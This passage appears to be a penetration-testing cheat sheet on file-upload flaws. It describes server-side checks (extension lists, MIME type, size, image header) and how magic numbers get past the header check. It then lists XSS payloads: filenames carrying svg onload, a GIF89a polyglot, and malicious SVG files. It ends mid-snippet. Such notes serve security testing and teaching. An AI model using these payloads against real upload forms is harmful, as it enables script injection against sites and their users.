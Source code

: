 ### 2. File Name Validation:

- File name validation is when the server validate the file that being uploaded by checking
its extension, this validation happens based on many methods, but two of the most popular
methods are Blacklisting File Extensions and Whitelisting File Extensions.
- Blacklisting File extensions is a type of protection where only a specific extensions are being
rejected from the server, Such as php, aspx. While Whitelisting File extensions is the exact
opposite, which is only a few file extensions are allowed to be uploaded to the server, Such as
jpg, jpeg, gif.

### 3. Content-type / MIME-type Validation:

- Content-Type validation is when the server validate the content of the file by checking the
MIME type of the file, which can be shown in the http request. For example, some image file
uploads validate the images uploaded by checking if the Content-Type of the file is an image type.
- For Example: `Content-type: image/png`

### 4. Content-Length Validation:

- Content-Length validation is when the server checks the length of the content of the
uploaded file and restricts a file size that can’t be exceeded, Although this type of validation is
not very popular, But it can be shown on some file uploads.
- For Example: `Not allow file size greater than 10 bytes`

### 5. Checking the Image Header:

- When image upload only is allowed, most web applications usually validate the image header by using a server-side function such as `getimagesize()` in PHP. When called, this function will return the size of an image. If the file is not a valid image, meaning that the file header is not that of an image, the function will return FALSE. Therefore, several web applications typically check if the function returns TRUE or FALSE and validate the uploaded file using this information.
- This can be bypassed by using magic numbers

[List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Exploitation:

### XSS:

```markdown
There are multiple ways to achieve XSS.

1. Set file name filename="svg onload=alert(document.domain)>" , filename="58832_300x300.jpg<svg onload=confirm()>"
2. Upload using .gif file

GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;

3. Upload using .svg file

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
